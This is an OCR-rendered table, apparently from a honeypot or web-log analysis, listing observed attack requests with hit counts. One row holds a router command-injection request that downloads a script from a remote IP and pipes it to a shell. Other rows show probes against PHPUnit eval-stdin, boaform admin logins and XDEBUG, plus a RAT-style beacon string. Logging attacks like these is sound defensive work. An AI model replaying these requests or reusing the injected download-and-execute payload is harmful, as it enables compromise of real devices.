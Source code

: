 |  19 |                    35 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(`wget%20-O-%20http://66.63.187.69/tp|sh;`) HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
|  20 |                    30 | POST /boaform/admin/formLogin HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
|  21 |                    28 | GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|  22 |                    28 | GET /logon.htm HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|  23 |                    28 | 238\x00ll|'|'|SGFjS2VkX0Q3NUU2QUFB|'|'|WIN-QZN7FJ7D1O|'|'|Administrator|'|'|18-11-28|'|'||'|'|Win 7 Ultimate SP1 x64|'|'|No|'|'|S17|'|'|..|'|'|SW5ib3ggLSBPdXRsb29rIERhdGEgRmlsZSAtIE1pY3Jvc29mdCBPdXRsb29rAA==|'|'|                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|  24 |                    28 | GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
